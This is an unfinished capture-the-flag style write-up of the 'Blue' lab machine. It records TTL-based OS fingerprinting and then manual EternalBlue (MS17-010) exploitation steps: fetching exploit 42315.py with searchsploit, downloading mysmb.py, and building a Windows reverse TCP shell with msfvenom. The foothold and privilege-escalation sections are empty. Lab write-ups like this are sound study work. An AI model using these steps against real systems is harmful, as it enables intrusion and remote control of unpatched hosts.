

Name: Blue
Date:  
Difficulty:  
Description:  
Better Description:  
Goals:  
Learnt:

## Recon
The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
```bash
ping -c 3 10.129.105.18  
PING 10.129.105.18 (10.129.105.18) 56(84) bytes of data.
64 bytes from 10.129.105.18: icmp_seq=1 ttl=127 time=232 ms
64 bytes from 10.129.105.18: icmp_seq=2 ttl=127 time=233 ms
64 bytes from 10.129.105.18: icmp_seq=3 ttl=127 time=221 ms

--- 10.129.105.18 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2002ms
rtt min/avg/max/mdev = 221.410/228.976/233.237/5.364 ms
```
Even though the name of this room is very siumilar to a famous exploit,
seeing the `Windows 7 Professional 7601 Service Pack 1 microsoft-ds` in nmap of anything to means to check for Eternal Blue. But I also run other nmap scan for completeness and Vuln returns the dreaded smb-vuln-ms17-010.

## Exploit

Although metasploit has a module for this and it a quick couple of commands to execute I will perform this manually.
I looked up manual exlpoitation of Eternal Blue and found this  article: [redteamzone](https://redteamzone.com/EternalBlue/).
Following the steps layed out while being mindful this is a windows 7 exploit using old versions and implementations of python.

```bash
searchsploit eternal
searchsploit -m 42315.py # -m copies to current workign directory
```


The dependency missing from my VM like the guide is mysmb.
```bash
wget https://raw.githubusercontent.com/worawit/MS17-010/master/mysmb.py
```

```bash
# reverse_tcp for the OSCP guidelines
msfvenom -p windows/shell_reverse_tcp LHOST=10.129.105.18 LPORT=4444 -f exe -o shell.exe

```

## Foothold

## PrivEsc

      
